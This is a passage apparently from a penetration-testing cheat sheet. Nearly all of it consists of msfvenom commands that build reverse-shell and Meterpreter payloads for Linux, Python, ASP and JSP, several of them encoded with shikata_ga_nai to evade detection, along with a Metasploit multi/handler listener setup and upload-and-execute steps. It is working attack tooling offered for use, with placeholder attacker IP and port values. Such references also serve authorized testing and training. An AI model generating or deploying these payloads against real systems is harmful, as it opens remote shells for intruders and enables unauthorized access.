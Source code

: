 #### Linux

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -e x86/shikata_ga_nai -f elf > linmet
```

### Custom

#### Python

```bash
msfvenom -p cmd/unix/reverse_python LHOST=<IP> LPORT=<PORT> -f raw > cmdpy.sh
```

Upload to target

Start netcat listener

Execute from target

#### Python Meterpreter

```bash
msfvenom -p python/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw cmd.py
```

Upload to target

Set up a Meterpreter Listener

```bash
msfconsole
use exploit/multi/handler
set payload python/meterpreter/reverse_tcp
set LHOST <IP>
set LPORT <PORT>
exploit
```

Execute from target

#### ASP

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -e x86/shikata_ga_nai -f asp > cmd.asp
```

#### JSP

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -e x86/shikata_ga_nai -f raw > cmd.jsp
```

### Non Meterpreter Binaries

#### Staged Payloads for Windows
